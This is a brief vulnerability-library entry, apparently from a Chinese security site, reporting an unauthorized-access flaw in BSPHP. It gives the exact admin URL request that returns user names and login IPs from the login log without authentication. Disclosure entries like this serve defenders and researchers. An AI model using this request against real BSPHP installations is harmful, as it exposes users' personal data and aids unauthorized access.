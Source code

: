 ```yaml
---
title: 'BSPHP存在未授权访问'
date: Sat, 26 Sep 2020 10:42:19 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


该处泄漏的⽤户名和登陆ip /admin/index.php?m=admin&c=log&a=table\_json&json=get&soso\_ok=1&t=user\_login\_log&page=1&limit=10& [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_90752b3880f4de0612a22c38542748d8.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_90752b3880f4de0612a22c38542748d8.jpg)